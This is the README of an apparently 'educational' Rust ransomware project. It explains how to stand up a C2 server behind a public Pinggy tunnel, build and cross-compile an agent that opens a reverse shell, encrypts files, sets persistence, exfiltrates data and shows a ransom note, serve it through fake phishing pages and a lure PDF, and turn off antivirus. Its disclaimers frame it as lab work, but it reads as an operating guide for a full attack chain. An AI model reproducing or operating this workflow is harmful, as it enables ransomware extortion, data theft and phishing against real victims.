



# Rust Malware Simulation (Edu-Ransomware)


> **IMPORTANT LEGAL NOTICE & DISCLAIMER**
>
> This software was developed **exclusively for educational purposes** and security research.
>
> - Using this software on systems without explicit authorization is **illegal** and may result in criminal prosecution.
> - The author assumes **no liability** for damages caused by the use or misuse of this software.
> - **NEVER** run this malware on production systems. Always use an isolated Virtual Machine (VM).

---

## About the Project

This project demonstrates the mechanics of a modern ransomware attack under laboratory conditions. It consists of the following main components:

1. Malware Agent (Rust): An agent written in Rust that runs on the target system. It establishes a reverse shell, encrypts files atomically (AES-256-CTR), and establishes persistence.
2. C2 Server (Python): A Command-and-Control server that manages multiple bots, sends commands, and controls decryption.
3. Delivery Server (DbD-Site): A web server simulating Drive-by-Download attacks and delivering OS-specific payloads.
4. PDF Phishing: A generator for phishing PDFs designed to trick the victim into downloading the malware.

The goal is to explain and demonstrate how ransomware functions.

---

## Project Structure

```
rust-mw/
├── malware_agent/          # Rust Ransomware Agent
│   └── src/
├── c2_server/              # Python C2 Server
│   ├── server.py
│   └── loot/               # Exfiltrated data
├── delivery/
│   ├── DbD-Site/           # Drive-by-Download Webserver
│   │   ├── server.py
│   │   ├── public/         # HTML/CSS Phishing Pages
│   │   └── files/          # Payloads (generated by build)
│   └── pdf_phishing/       # PDF Generator
├── build_payloads.sh       # Compiles all payloads
├── run_c2.sh               # Starts C2 Server
├── run_delivery.sh         # Starts Delivery Server
└── run_pinggy.sh           # Starts Pinggy Tunnel
```

---

## Features

### 1. Attack Chain



### Network Communication (Reverse Shell)

The client actively connects outward to the server, bypassing typical firewall rules that block incoming traffic.



---

### 3. Encryption Process (Atomic Encryption)

To prevent data loss during crashes, the agent uses an atomic procedure.



---

## Quick Start (Automated Scripts)

The project contains shell scripts for a simplified workflow:

```bash
# Terminal 1: Start Pinggy Tunnel (note the Host & Port!)
./run_pinggy.sh

# Terminal 2: Start C2 Server
./run_c2.sh

# Terminal 3: Compile Payloads (after configuring Pinggy!)
./build_payloads.sh

# Terminal 4: Start Delivery Server (optional)
./run_delivery.sh
```

### Workflow Order

1. **`./run_pinggy.sh`** - Starts TCP tunnel, outputs Host & Port.
2. Configure `malware_agent/src/main.rs` with Pinggy details.
3. **`./build_payloads.sh`** - Compile for Linux/Windows/Mac.
4. **`./run_c2.sh`** - Starts the Command-and-Control (C&C) Server.
5. **`./run_delivery.sh`** - Starts the Drive-by-Download Server.

---

## Manual Installation & Start

### C2 Server (Attacker)

1. **Start Server Locally**

```bash
cd c2_server
python3 server.py
```

The server listens on port **4444** by default.

2. **Make Server Publicly Available (Pinggy.io)**

To allow the client to connect from another network (or VM), a public tunnel is used.

```bash
# Starts a TCP tunnel to your local port 4444
ssh -o StrictHostKeyChecking=no -o ServerAliveInterval=60 -p 443 -R0:localhost:4444 tcp@a.pinggy.io
```

**Note the output!** It will look something like this:

```
tcp://ylruu-90-186-43-205.a.free.pinggy.link:39005
Host: ylruu-90-186-43-205.a.free.pinggy.link
Port: 39005
```

> Note: Keep this terminal open, otherwise the connection will break.

---

### Delivery Server (Drive-by-Download)

The Delivery Server simulates phishing websites and delivers OS-specific payloads.

1. **Start Server**

```bash
cd delivery/DbD-Site
python3 server.py
```

The server runs on port 3000 and offers the following endpoints:

- `/game` - Fake Gaming Page
- `/security` - Fake Security Alert
- `/prize` - Fake Lottery/Prize Page
- `/get_document` - Smart Download (automatically detects OS)

2. **Phishing PDF generieren**

```bash
cd delivery/pdf_phishing
pip install -r requirements.txt
python3 generate_phishing_pdf.py
```

The PDF contains a blurred "invoice background" with a link leading the victim to the Delivery Server.

---

## Malware Agent Kompilierung (Opfer)

Edit `malware_agent/src/main.rs` with your tunnel details:

### 1. Adjust Configuration

Open the file `malware_agent/src/main.rs` and enter the data from the Pinggy tunnel:

```Rust
// src/main.rs

// Enter the Pinggy URL here (WITHOUT tcp://)
const C2_IP: &str = "ylruu-90-186-43-205.a.free.pinggy.link";

// Enter the Pinggy Port here
const C2_PORT: u16 = 39005;
```

### 2. Compile (Build)

**Option A: Automatic (Recommended)**

```bash
./build_payloads.sh
```

This script compiles for Linux, Windows, and Mac and automatically copies the payloads to the Delivery folder.

**Option B: Manual**

```bash
cd malware_agent
cargo build --release
```

### 3. Locate the Executable

After compiling, you will find the executable file here:

- Linux/Mac: `./target/release/rust_mw`
- Windows: `.\target\release\rust_mw.exe`

> **Warning:** Warning: Windows Defender or antivirus programs will likely delete this file immediately. Add the folder to exceptions or disable real-time protection for the demo.

### 4. Cross-Compilation

```bash
# Compile for Windows from Linux
cd malware_agent
RUSTFLAGS="-C link-args=-static" cargo build --release --target x86_64-pc-windows-gnu
```

---

## Operating the C2 Server

As soon as the victim executes the payload, the following appears in the server terminal:

`[+] Neue Verbindung: ID 1 from ...`

The server has an interactive shell. Here are the most important commands:

| Befehl                | Beschreibung                                             |
| --------------------- | -------------------------------------------------------- |
| `sessions`            | Lists all currently connected victims (bots)             |
| `interact <ID>`       | Switches to mode to control a specific bot               |
| `encrypt <ID> <PFAD>` | Encrypts a folder on the victim's PC                     |
| `decrypt <ID> [PFAD]` | Decrypts files. Without path, the root directory is used |
| `broadcast <CMD>`     | Sends a command to all connected bots simultaneously     |
| `help`                | Shows the help menu                                      |
| `exit`                | Exits the server                                         |

### Example Workflow

```bash
# Check connections
C2> sessions

# Interact with Victim 1
C2> interact 1

# Start encryption (on the Desktop)
ID 1> encrypt /home/user/Desktop

# (The client generates keys, encrypts files, and shows the ransom note)

# Start decryption (after "payment")
ID 1> decrypt

# Return to main menu
ID 1> background
```

---

## Process Management

To terminate the malware process on the victim system:

```bash
# Find process
pgrep -a rust

# Terminate process
pkill -f rust
```

---

## Technical Features

### Malware Agent

- **Stealth Mode:** On Windows, the console window is hidden (windows_subsystem). On Linux, the process runs as a daemon in the background.
- **Persistenz:**
  - Windows: Registry Key (`HKCU\...\Run`)
  - Linux: Systemd Service (`~/.config/systemd/user/`)
- **Crypto:** AES-256-CTR via RustCrypto Crate. The key is stored locally in `rescue.key`.
- **Data Exfiltration:** Stolen files are Base64 encoded and transferred to the C2 Server.
- **Wallpaper Change:** After encryption, the desktop background is replaced by a ransomware image:
  - The image (`ransom_wallpaper.jpg`) is embedded in the binary (`include_bytes!`)
  - Extracted automatically to `base_path` and set as wallpaper
  - Uses the `wallpaper` crate for cross-platform support
- **Ransom Note:** HTML file (`README_DECRYPT.html`) is created and automatically opened in the browser.

### Delivery Server

- **OS-Detection:** Automatically detects Windows/Linux/Mac based on the User-Agent.
- **Phishing-Seiten:** Pre-built Social Engineering templates (Game, Security, Prize).
- **Smart Download:** Endpoint `/get_document` delivers the matching payload based on OS.

### PDF Phishing

- **Blurred Invoice:** Generates a blurred invoice image as a lure.
- **Embedded Link:** Links to the Delivery Server to download the payload.

---

## License

MIT License – See full license text below.

```
MIT License
Copyright (c) 2024 Tim Lukas

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
```

**ETHICAL USE CLAUSE:** By using this software, you agree to use it only for educational purposes or on systems you own or have explicit permission to test. The author is not responsible for any misuse.

---

## Support

For questions or issues:

- Open an issue in this repository
- Ensure you've read this README thoroughly before asking

> **Remember:** This is educational software. Do not use it for malicious purposes.
